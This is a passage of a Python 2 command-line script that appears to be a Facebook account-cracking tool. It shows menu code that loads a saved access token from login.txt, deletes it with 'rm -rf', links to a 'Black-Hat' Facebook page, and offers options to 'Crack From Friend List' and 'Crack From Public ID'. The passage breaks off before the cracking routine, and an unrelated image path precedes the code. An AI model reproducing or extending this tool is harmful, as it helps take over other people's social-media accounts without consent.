 	        os.system('xdg-open https://m.facebook.com/Black-Hat-112764127091856/?ref=bookmarks')

	        menu()

        

	elif hack =="0":

		hamu('Token Removed')

		os.system('rm -rf login.txt')

		exit()

	else:

		print "\x1b[1;97mFill in correctly"

		hop()

def super():

	global toket

	os.system('clear')

	try:

		toket=open('login.txt','r').read()

	except IOError:

		print"\x1b[1;97mToken invalid"

		os.system('rm -rf login.txt')

		time.sleep(1)

		login()

	os.system('clear')

	print logo

	print "\033[1;97m✧ \033[1;97m1.\x1b[1;97mCrack From Friend List."

	print "\033[1;97m✧ \033[1;97m2.\x1b[1;97mCrack From Public ID."

	print "\033[1;97m✧ \033[1;97m0.\033[1;97mBack."

	pilih_super()

def pilih_super():

	peak = raw_input("\n\033[1;97mChoose Option ≻ \033[1;97m")

	if peak =="":

		print "\x1b[1;97mFill in correctly"

		pilih_super()

	elif peak =="1":

		os.system('clear')
